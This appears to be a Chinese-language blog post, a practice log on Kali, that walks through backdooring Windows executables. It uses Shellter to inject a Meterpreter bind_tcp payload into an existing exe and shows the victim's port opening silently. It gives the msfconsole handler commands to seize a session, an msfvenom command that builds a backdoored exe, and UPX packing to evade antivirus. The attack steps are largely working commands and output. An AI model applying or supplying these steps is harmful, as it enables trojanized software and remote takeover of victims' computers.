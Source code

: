 ```yaml
---
title: 简单的 PE 后门
date: 2019-07-19 22:57:45
tags:
  - Kali
  - 实践记录
categories:
  - 安全工具
---
```


记录一下最简单的挂后门和免杀方法，不怎么接触这块。

<!--more-->

主要介绍两个工具：Shellter 和 Upx，后者 Kali 自带。Shellter 的安装略有点复杂，因为需要 wine32 的支持。使用的 Kali 是 64 位的。

首先 `apt install shellter` 应该不会有什么问题，但是启动的时候会提示缺少 wine32，因此执行：

```shell
$ dpkg --add-architecture i386 && apt-get update && apt-get install wine32
```

这一步会花费很长时间，因为 wine 本身很庞大。装完后应该就可以正常使用了。

## 通过 Shellter 篡改 exe 文件

随意取一个 exe 文件作为我们要加入后门的可执行文件。首先启动 shellter，会看到：
![图 1](feature.jpg)

输入 `A` 选择自动模式，随后输入 exe 文件所在路径，程序便会自动运行，分析原文件并插入恶意代码。这个过程大约持续不到一分钟。

输入 `Y` 开启隐蔽模式，随后选择使用它列出的七种 payload 还是自定义，这里我们输入 `L` 选择列出的 payload。

带 `Meterpreter` 前缀的是指可以通过 MSF 获取会话的 payload，方式有正向 `Bind` 与反向 `Reverse` 两种。`Bind` 顾名思义，就是用户打开 exe 后，将会在用户主机上开放一个端口，攻击者去连接那个端口就可以获取会话。`Reverse` 则是反过来，使用户主机连接攻击者开放的端口来获取会话。而带 `Shell` 前缀的 payload 可以直接反弹 shell 给攻击者。

攻击者还可以通过不同的协议来获取会话，比如任意 TCP 协议，HTTP/HTTPS 协议等。这里以选择 4 号 payload `Meterpreter_Bind_TCP` 为例。

最后要求设置 `LPORT` 也就是要在目标主机上打开的端口，只要是没有被占用的端口都可以，比如这里可以设置 `60000` 端口。

完成以后，新的 exe 文件就是已经被植入后门的 exe 文件，相比于原文件，它占空间多了一点，其它地方似乎看不出什么区别。

## 通过 Meterpreter 获取会话

假设目标主机（Windows）获得了新的 exe 文件。在双击打开前，我们查看用 `netstat -an` 查看其已经开放的端口：

```
Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    192.168.159.128:139    0.0.0.0:0              LISTENING
  TCP    192.168.159.128:1244   112.34.111.235:443     FIN_WAIT_2
  UDP    0.0.0.0:445            *:*
  UDP    127.0.0.1:123          *:*
  UDP    127.0.0.1:1025         *:*
  UDP    127.0.0.1:1219         *:*
  UDP    192.168.159.128:123    *:*
  UDP    192.168.159.128:137    *:*
  UDP    192.168.159.128:138    *:*
```

然后我们双击打开，发现和原来的 exe 完全没有区别。再次查看端口情况可以发现，`60000` 端口悄悄开启了：

```
Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:60000          0.0.0.0:0              LISTENING
  TCP    192.168.159.128:139    0.0.0.0:0              LISTENING
  TCP    192.168.159.128:1244   112.34.111.235:443     FIN_WAIT_2
  UDP    0.0.0.0:445            *:*
  UDP    127.0.0.1:123          *:*
  UDP    127.0.0.1:1025         *:*
  UDP    127.0.0.1:1219         *:*
  UDP    192.168.159.128:123    *:*
  UDP    192.168.159.128:137    *:*
  UDP    192.168.159.128:138    *:*
```

接下来我们看看攻击者要怎么操作来获取会话。

首先要确保攻击者和目标主机在同一网段。打开 `msfconsole`。依次输入：

```bash
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set lport 60000
set rhost 192.168.159.128
exploit
```

其中 `rhost` 需要改为目标主机的内网 IP。

这样以后，就可以获取会话，并执行任意命令了（会话的作用不局限于执行 shell 命令）：
![图 2](1.jpg)

需要注意的是，一旦用户关闭 exe 文件，会话也将随之关闭。因此实际场景中常常配合持久化提权工具使用。

## 使用 msfvenom 直接生成带后门的 PE 文件

上面的例子需要修改一个已有的 exe 文件，这里我们可以直接生成这样的带后门的文件：

```shell
$ msfvenom -p windows/meterpreter/bind_tcp lport=60001 -f exe > test.exe
```

端口号依然可以是任意未被占用的端口。msfvenom 也提供了许多选项实现免杀，这里不一一介绍了。

## 使用 Upx 给程序加壳

这样做的作用主要有两个：压缩文件大小和免杀。然而 Upx 加壳毕竟是最最简单的免杀方法，现在的绝大多数杀毒软件都能轻易脱壳。举个例子，给刚才生成的 exe 文件加壳，只需要：

```shell
$ upx -9 test.exe
```

`-1` 参数压缩得最快，`-9` 参数压缩质量最高。

## 后记

这篇文章叙述的方法是最初级的植入后门的方法，略过了很多有一定难度的细节，详情参见 Shellter/Upx/msfvenom 的文档。
